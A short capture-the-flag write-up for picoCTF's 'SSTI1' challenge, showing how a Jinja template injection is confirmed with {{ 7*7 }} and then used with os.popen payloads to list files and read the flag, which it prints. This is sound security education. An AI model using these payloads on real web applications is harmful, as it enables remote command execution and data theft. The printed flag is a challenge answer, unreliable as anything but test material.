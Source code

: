 # SSTI1 

https://play.picoctf.org/practice/challenge/492 (SSTI1)

> I made a cool website where you can announce whatever you want! Try it out! 
> I heard templating is a cool and modular way to build web apps! Check out my website

## Steps
1. Given a Web Application Challenge, It's very straight forward looking at the title (SSTI1). However if we have to deduce it from our view, we can check it using Wappalyzer to see what tech stack it was build with. 

![alt text](image.png)

![alt text](image-1.png)

It was build using python and most likely a jinja template. We can try a very generic payload to test it. `{{ 7*7 }}` is our payload and it returns 49

![alt text](image-3.png)

![alt text](image-2.png)

2. Now since we are sure its a Jinja Template, we can use our payload to actually execute what we want to get our objective (flag here). 
> `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls -la').read() }}`

![alt text](image-4.png)

> `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag').read() }}`

![alt text](image-5.png)

and voila, the flag is 
> `picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_bcf73b04}`